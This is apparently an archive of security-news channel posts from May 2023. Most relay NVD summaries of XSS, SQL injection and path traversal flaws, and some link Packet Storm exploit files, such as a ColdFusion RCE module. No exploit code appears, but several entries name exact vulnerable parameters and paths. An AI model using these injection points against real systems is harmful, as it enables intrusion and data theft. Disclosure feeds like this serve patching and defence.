* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2553

<blockquote>
‼ CVE-2023-2553 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository unilogies/bumsys prior to 2.2.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-05`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2516

<blockquote>
‼ CVE-2023-2516 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository nilsteampassnet/teampass prior to 3.0.7.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-05`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2427

<blockquote>
‼ CVE-2023-2427 ‼

Cross-site Scripting (XSS) - Reflected in GitHub repository thorsten/phpmyfaq prior to 3.1.13.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-05`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30243

<blockquote>
‼ CVE-2023-30243 ‼

Beijing Netcon NS-ASG Application Security Gateway v6.3 is vulnerable to SQL Injection via TunnelId that allows access to sensitive information.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# sysadm_in_channel
`2023-05-05`

* https://ermetic.com/blog/azure/when-good-apis-go-bad-uncovering-3-azure-api-management-vulnerabilities/

<blockquote>
When Good APIs Go Bad: Uncovering 3 Azure API Management Vulnerabilities

Vulnerabilities in the Azure API Management service. These included two SSRF (Server-Side Request Forgery) vulnerabilities and a file upload path traversal on an internal Azure workload:

— Read more…
</blockquote>

<table><tr><td><b>→</b><a href="https://ermetic.com/blog/azure/when-good-apis-go-bad-uncovering-3-azure-api-management-vulnerabilities/">
https://ermetic.com/blog/azure/when-good-apis-go-bad-uncovering-3-azure-api-management-vulnerabilities/
</a>
<blockquote>
Learn how now-patched Azure API Management service vulnerabilities revealed by the Ermetic research team enabled malicious actions
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-05`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30242

<blockquote>
‼ CVE-2023-30242 ‼

NS-ASG v6.3 was discovered to contain a SQL injection vulnerability via the component /admin/add_ikev2.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30268

<blockquote>
‼ CVE-2023-30268 ‼

CLTPHP &lt;&#61;6.0 is vulnerable to Improper Input Validation.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25982

<blockquote>
‼ CVE-2023-25982 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Eirudo Simple YouTube Responsive plugin &lt;&#61; 2.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30094

<blockquote>
‼ CVE-2023-30094 ‼

A stored cross-site scripting (XSS) vulnerability in TotalJS Flow v10 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the platform name field in the settings module.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30097

<blockquote>
‼ CVE-2023-30097 ‼

A stored cross-site scripting (XSS) vulnerability in TotalJS messenger commit b6cf1c9 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the private task field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25458

<blockquote>
‼ CVE-2023-25458 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in GMO Internet Group, Inc. TypeSquare Webfonts for ConoHa plugin &lt;&#61; 2.0.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25977

<blockquote>
‼ CVE-2023-25977 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in 9seeds.Com CPT – Speakers plugin &lt;&#61; 1.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25961

<blockquote>
‼ CVE-2023-25961 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in Catch Themes Darcie theme &lt;&#61; 1.1.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30203

<blockquote>
‼ CVE-2023-30203 ‼

Judging Management System v1.0 was discovered to contain a SQL injection vulnerability via the event_id parameter at /php-jms/result_sheet.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2519

<blockquote>
‼ CVE-2023-2519 ‼

A vulnerability has been found in Caton CTP Relay Server 1.2.9 and classified as critical. This vulnerability affects unknown code of the file /server/api/v1/login of the component API. The manipulation of the argument username/password leads to sql injection. The attack can be initiated remotely. VDB-228010 is the identifier assigned to this vulnerability. NOTE: The vendor was contacted early about this disclosure but did not respond in any way.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30184

<blockquote>
‼ CVE-2023-30184 ‼

A stored cross-site scripting (XSS) vulnerability in Typecho v1.2.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter at /index.php/archives/1/comment.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-04`

<blockquote>
Companymaps 8.0 SQL Injection
https://packetstormsecurity.com/files/172146/cmaps80-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172146/cmaps80-sql.txt">
https://packetstormsecurity.com/files/172146/cmaps80-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26010

<blockquote>
‼ CVE-2023-26010 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in WPMobile.App plugin &lt;&#61; 11.18 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26012

<blockquote>
‼ CVE-2023-26012 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Denzel Chia | Phire Design Custom Login Page plugin &lt;&#61; 2.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45818

<blockquote>
‼ CVE-2022-45818 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in WP OnlineSupport, Essential Plugin Hero Banner Ultimate plugin &lt;&#61; 1.3.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-17`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25962

<blockquote>
‼ CVE-2023-25962 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Biplob Adhikari Accordion – Multiple Accordion or FAQs Builder plugin &lt;&#61; 2.3.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26016

<blockquote>
‼ CVE-2023-26016 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Tauhidul Alam Simple Portfolio Gallery plugin &lt;&#61; 0.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-4259

<blockquote>
‼ CVE-2022-4259 ‼

Due to improper input validation in the Alerts controller, a SQL injection vulnerability in Nozomi Networks Guardian and CMC allows an authenticated attacker to execute arbitrary SQL queries on the DBMS used by the web application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2017-20184

<blockquote>
‼ CVE-2017-20184 ‼

Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Carlo Gavazzi Powersoft up to version 2.1.1.1 allows an unauthenticated, remote attacker to download any file from the affected device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26125

<blockquote>
‼ CVE-2023-26125 ‼

Versions of the package github.com/gin-gonic/gin before 1.9.0 are vulnerable to Improper Input Validation by allowing an attacker to use a specially crafted request via the X-Forwarded-Prefix header, potentially leading to cache poisoning.**Note:** Although this issue does not pose a significant threat on its own it can serve as an input vector for other more impactful vulnerabilities. However, successful exploitation may depend on the server configuration and whether the header is used in the application logic.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47757

<blockquote>
‼ CVE-2022-47757 ‼

In imo.im 2022.11.1051, a path traversal vulnerability delivered via an unsanitized deeplink can force the application to write a file into the application's data directory. This may allow an attacker to save a shared library under a special directory which the app uses to dynamically load modules. Loading the library can lead to arbitrary code execution.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27568

<blockquote>
‼ CVE-2023-27568 ‼

SQL injection vulnerability inSpryker Commerce OS 0.9 that allows for access to sensitive data via customer/order?orderSearchForm[searchText]&#61;

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27075

<blockquote>
‼ CVE-2023-27075 ‼

A cross-site scripting vulnerability (XSS) in the component microbin/src/pasta.rs of Microbin v1.2.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30077

<blockquote>
‼ CVE-2023-30077 ‼

Judging Management System v1.0 by oretnom23 was discovered to vulnerable to SQL injection via /php-jms/review_result.php?mainevent_id&#61;, mainevent_id.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45860

<blockquote>
‼ CVE-2022-45860 ‼

A weak authentication vulnerability [CWE-1390] in FortiNAC-F version 7.2.0, FortiNAC version 9.4.2 and below, 9.2 all versions, 9.1 all versions, 8.8 all versions, 8.7 all versions in device registration page may allow an unauthenticated attacker to perform password spraying attacks with an increased chance of success.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43950

<blockquote>
‼ CVE-2022-43950 ‼

A URL redirection to untrusted site ('Open Redirect') vulnerability [CWE-601] in FortiNAC-F version 7.2.0, FortiNAC version 9.4.1 and below, 9.2 all versions, 9.1 all versions,  8.8 all versions, 8.7 all versions may allow an unauthenticated attacker to redirect users to any arbitrary website via a crafted URL.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30204

<blockquote>
‼ CVE-2023-30204 ‼

Judging Management System v1.0 was discovered to contain a SQL injection vulnerability via the judge_id parameter at /php-jms/edit_judge.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24744

<blockquote>
‼ CVE-2023-24744 ‼

Cross Site Scripting (XSS) vulnerability in Rediker Software AdminPlus 6.1.91.00 allows remote attackers to run arbitrary code via the onload function within the application DOM.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30205

<blockquote>
‼ CVE-2023-30205 ‼

A stored cross-site scripting (XSS) vulnerability in DouPHP v1.7 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the unique_id parameter in /admin/article.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25827

<blockquote>
‼ CVE-2023-25827 ‼

Due to insufficient validation of parameters reflected in error messages by the legacy HTTP query API and the logging endpoint, it is possible to inject and execute malicious JavaScript within the browser of a targeted OpenTSDB user. This issue shares the same root cause as CVE-2018-13003, a reflected XSS vulnerability with the suggestion endpoint.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23830

<blockquote>
‼ CVE-2023-23830 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in ProfilePress Membership Team ProfilePress plugin &lt;&#61; 4.5.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23881

<blockquote>
‼ CVE-2023-23881 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in GreenTreeLabs Circles Gallery plugin &lt;&#61; 1.0.10 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23875

<blockquote>
‼ CVE-2023-23875 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Himanshu Bing Site Verification plugin using Meta Tag plugin &lt;&#61; 1.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26017

<blockquote>
‼ CVE-2023-26017 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in BlueGlass Jobs for WordPress plugin &lt;&#61; 2.5.10.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-03`

<blockquote>
SoftExpert Suite 2.1.3 Local File Inclusion
https://packetstormsecurity.com/files/172127/softexpertsuite213-lfi.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172127/softexpertsuite213-lfi.txt">
https://packetstormsecurity.com/files/172127/softexpertsuite213-lfi.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-03`

<blockquote>
PHPJabbers Simple CMS 5.0 SQL Injection
https://packetstormsecurity.com/files/172116/pjsimplecms50-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172116/pjsimplecms50-sql.txt">
https://packetstormsecurity.com/files/172116/pjsimplecms50-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-03`

<blockquote>
Admidio 4.2.5 CSV Injection
https://packetstormsecurity.com/files/172103/admidio425-inject.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172103/admidio425-inject.txt">
https://packetstormsecurity.com/files/172103/admidio425-inject.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-03`

<blockquote>
phpMyFAQ 3.1.12 CSV Injection
https://packetstormsecurity.com/files/172097/phpmyfaq3112-inject.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172097/phpmyfaq3112-inject.txt">
https://packetstormsecurity.com/files/172097/phpmyfaq3112-inject.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23708

<blockquote>
‼ CVE-2023-23708 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Themeisle Visualizer: Tables and Charts Manager for WordPress plugin &lt;&#61; 3.9.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25798

<blockquote>
‼ CVE-2023-25798 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Olevmedia Olevmedia Shortcodes plugin &lt;&#61; 1.1.9 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25796

<blockquote>
‼ CVE-2023-25796 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Include WP BaiDu Submit plugin &lt;&#61; 1.2.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23820

<blockquote>
‼ CVE-2023-23820 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in ProfilePress Membership Team ProfilePress plugin &lt;&#61; 4.5.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22713

<blockquote>
‼ CVE-2023-22713 ‼

Auth. (contributor+) Cross-Site Scripting (XSS) vulnerability in WordPress Download Manager Gutenberg Blocks by WordPress Download Manager plugin &lt;&#61; 2.1.8 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25797

<blockquote>
‼ CVE-2023-25797 ‼

Auth. Stored Cross-Site Scripting (XSS) vulnerability in Mr.Vibe vSlider Multi Image Slider for WordPress plugin &lt;&#61; 4.1.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25784

<blockquote>
‼ CVE-2023-25784 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Bon Plan Gratos Sticky Ad Bar plugin &lt;&#61; 1.3.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25792

<blockquote>
‼ CVE-2023-25792 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in XiaoMac WP Open Social plugin &lt;&#61; 5.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25783

<blockquote>
‼ CVE-2023-25783 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Alex Moss FireCask Like &amp; Share Button plugin &lt;&#61; 1.1.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25789

<blockquote>
‼ CVE-2023-25789 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Tapfiliate plugin &lt;&#61; 3.0.12 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25787

<blockquote>
‼ CVE-2023-25787 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Wbolt team WP?????? plugin &lt;&#61; 1.3.9 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25786

<blockquote>
‼ CVE-2023-25786 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Thom Stark Eyes Only: User Access Shortcode plugin &lt;&#61; 1.8.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29839

<blockquote>
‼ CVE-2023-29839 ‼

A Stored Cross Site Scripting (XSS) vulnerability exists in multiple pages of Hotel Druid version 3.0.4, which allows arbitrary execution of commands. The vulnerable fields are Surname, Name, and Nickname in the Document function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47875

<blockquote>
‼ CVE-2022-47875 ‼

A Directory Traversal vulnerability in /be/erpc.php in Jedox GmbH Jedox 2020.2.5 allows remote authenticated users to execute arbitrary code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31433

<blockquote>
‼ CVE-2023-31433 ‼

A SQL injection issue in Logbuch in evasys before 8.2 Build 2286 and 9.x before 9.0 Build 2401 allows authenticated attackers to execute SQL statements via the welche parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31434

<blockquote>
‼ CVE-2023-31434 ‼

The parameters nutzer_titel, nutzer_vn, and nutzer_nn in the user profile, and langID and ONLINEID in direct links, in evasys before 8.2 Build 2286 and 9.x before 9.0 Build 2401 do not validate input, which allows authenticated attackers to inject HTML Code and XSS payloads in multiple locations.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29918

<blockquote>
‼ CVE-2023-29918 ‼

RosarioSIS 10.8.4 is vulnerable to CSV injection via the Periods Module.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23723

<blockquote>
‼ CVE-2023-23723 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Winwar Media WP Email Capture plugin &lt;&#61; 3.9.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29772

<blockquote>
‼ CVE-2023-29772 ‼

A Cross-site scripting (XSS) vulnerability in the System Log/General Log page of the administrator web UI in ASUS RT-AC51U wireless router firmware version up to and including 3.0.0.4.380.8591 allows remote attackers to inject arbitrary web script or HTML via a malicious network request.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29643

<blockquote>
‼ CVE-2023-29643 ‼

Cross Site Scripting (XSS) vulnerability in PerfreeBlog 3.1.2 allows attackers to execute arbitrary code via the Post function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29639

<blockquote>
‼ CVE-2023-29639 ‼

Cross site scripting (XSS) vulnerability in ZHENFENG13 My-Blog, allows attackers to inject arbitrary web script or HTML via editing an article in the &quot;blog article&quot; page due to the default configuration not utilizing MyBlogUtils.cleanString.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22921

<blockquote>
‼ CVE-2023-22921 ‼

A cross-site scripting (XSS) vulnerability in the Zyxel NBG-418N v2 firmware versions prior to V1.00(AARP.14)C0 could allow a remote authenticated attacker with administrator privileges to store malicious scripts using a web management interface parameter, resulting in denial-of-service (DoS) conditions on an affected device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29638

<blockquote>
‼ CVE-2023-29638 ‼

Cross Site Scripting (XSS) vulnerability in WinterChenS my-site before commit 3f0423da6d5200c7a46e200da145c1f54ee18548, allows attackers to inject arbitrary web script or HTML via editing blog articles.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29637

<blockquote>
‼ CVE-2023-29637 ‼

Cross Site Scripting (XSS) vulnerability in Qbian61 forum-java, allows attackers to inject arbitrary web script or HTML via editing the article content in the &quot;article editor&quot; page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2451

<blockquote>
‼ CVE-2023-2451 ‼

A vulnerability was found in SourceCodester Online DJ Management System 1.0 and classified as critical. This issue affects some unknown processing of the file /admin/bookings/view_details.php of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-227795.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29636

<blockquote>
‼ CVE-2023-29636 ‼

Cross site scripting (XSS) vulnerability in ZHENFENG13 My-Blog, allows attackers to inject arbitrary web script or HTML via the &quot;title&quot; field in the &quot;blog management&quot; page due to the the default configuration not using MyBlogUtils.cleanString.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29641

<blockquote>
‼ CVE-2023-29641 ‼

Cross Site Scripting (XSS) vulnerability in pandao editor.md thru 1.5.0 allows attackers to inject arbitrary web script or HTML via crafted markdown text.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-01`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22922

<blockquote>
‼ CVE-2023-22922 ‼

A buffer overflow vulnerability in the Zyxel NBG-418N v2 firmware versions prior to V1.00(AARP.14)C0 could allow a remote unauthenticated attacker to cause DoS conditions by sending crafted packets if Telnet is enabled on a vulnerable device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-01`

<blockquote>
Adobe ColdFusion Unauthenticated Remote Code Execution
https://packetstormsecurity.com/files/172079/adobe_coldfusion_rce_cve_2023_26360.rb.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172079/adobe_coldfusion_rce_cve_2023_26360.rb.txt">
https://packetstormsecurity.com/files/172079/adobe_coldfusion_rce_cve_2023_26360.rb.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-01`

<blockquote>
AC Repair And Services 1.0 SQL Injection
https://packetstormsecurity.com/files/172070/acrepairservices10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172070/acrepairservices10-sql.txt">
https://packetstormsecurity.com/files/172070/acrepairservices10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-01`

<blockquote>
Old Age Home Management 1.0 SQL Injection
https://packetstormsecurity.com/files/172068/oahm2022202310-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172068/oahm2022202310-sql.txt">
https://packetstormsecurity.com/files/172068/oahm2022202310-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-01`

<blockquote>
Chitor CMS 1.1.2 SQL Injection
https://packetstormsecurity.com/files/172067/chitorcms112rollno-sql.txt
</blockquote>

